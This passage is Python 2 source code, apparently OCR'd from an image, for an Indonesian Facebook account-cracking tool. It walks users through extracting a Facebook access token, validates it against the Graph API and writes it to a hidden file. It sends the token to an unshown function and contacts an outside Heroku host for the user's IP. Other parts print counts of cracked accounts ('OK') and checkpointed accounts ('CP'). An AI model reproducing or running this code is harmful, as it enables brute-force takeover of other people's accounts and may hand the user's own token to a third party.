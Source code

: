 
def tod():
    titik = ['\x1b[1;92m.   ', '\x1b[1;93m..  ', '\x1b[1;96m... ','\x1b[1;92m.   ', '\x1b[1;93m..  ', '\x1b[1;96m... ']
    for x in titik:
        print '\r %s[%s+%s] menghapus token %s'%(N,M,N,x),
        sys.stdout.flush()
        time.sleep(1)


# LO KONTOL
IP = requests.get('http://yayanxd.herokuapp.com/ip').text
logo = ''' \033[0;96m __  __        __  ______  ____
 \033[0;96m \ \/ / ____  /  |/  / _ )/ __/ ® \033[0m|| Created By JUAN XD
 \033[0;96m  \  / /___/ / /|_/ / _  / _/     \033[0m|| Github.com/JUAN-XD
 \033[0;96m  /_/       /_/  /_/____/_/ \033[0;91mv2.0  \033[0m|| facebook.com/juan.ganz.16'''

lo_ngentod = '1714009362122228'
# crack selesai
def hasil(ok,cp):
    if len(ok) != 0 or len(cp) != 0:
        print '\n\n %s[%s#%s] crack selesai...'%(N,K,N)
        print '\n\n [%s+%s] total OK : %s%s%s'%(O,N,H,str(len(ok)),N)
        print ' [%s+%s] total CP : %s%s%s'%(O,N,K,str(len(cp)),N);exit()
    else:
        print '\n\n [%s!%s] opshh kamu tidak mendapatkan hasil :('%(M,N);exit()


#masuk token
def yayanxd():
    os.system('clear')
    print (' %s*%s tools ini menggunakan login token facebook.\n %s*%s apakah kamu sudah tau cara mendapatkan token facebook?\n %s*%s ketik %sopen%s untuk mendapatkan token facebook.'%(O,N,O,N,O,N,H,N))
    kontol = raw_input('\n %s[%s?%s] Token :%s '%(N,M,N,H))
    if kontol in ('open', 'Open', 'OPEN'):
        print '\n%s *%s note! usahakan akun tumbal login di google chrome terlebih dahulu'%(B,N);time.sleep(2)
        print '%s *%s jangan lupa! url ubah ke %shttps://m.facebook.com'%(B,N,H);time.sleep(2)
        print '%s *%s setelah di alihkan ke google chrome. klik %stitik tiga'%(B,N,H);time.sleep(2)
        print '%s *%s lalu klik %sCari di Halaman%s Tinggal ketik %sEAAA%s Lalu salin.'%(B,N,H,N,H,N);time.sleep(2)
        raw_input(' %s*%s tekan enter '%(O,N))
        os.system('xdg-open https://m.facebook.com/composer/ocelot/async_loader/?publisher=feed#_=_')
        yayanxd()
    try:
        xzxz = requests.get('https://graph.facebook.com/me?access_token=%s'%(kontol))
        xdxd = json.loads(xzxz.text)
        nama = xdxd['name']
        wuhan(kontol)
        print '\n\n %s*%s selamat datang %s%s%s'%(O,N,K,nama,N);time.sleep(2)
        print ' %s*%s mohon untuk menggunakan sc ini sewajarnya, kami tidak bertanggung jawab jika sc ini disalah gunakan...'%(O,N);time.sleep(2)
        open('.ppk/.memek.txt', 'w').write(kontol)
        raw_input(' %s*%s tekan enter '%(O,N))
        os.system('xdg-open https://youtube.com/channel/UCNvDaXoyAVCNJbSqtaXA-mg')
        moch_yayan()
    except KeyError:
        print '\n\n %s[%s!%s] token invalid'%(N,M,N);time.sleep(2);yayanxd()
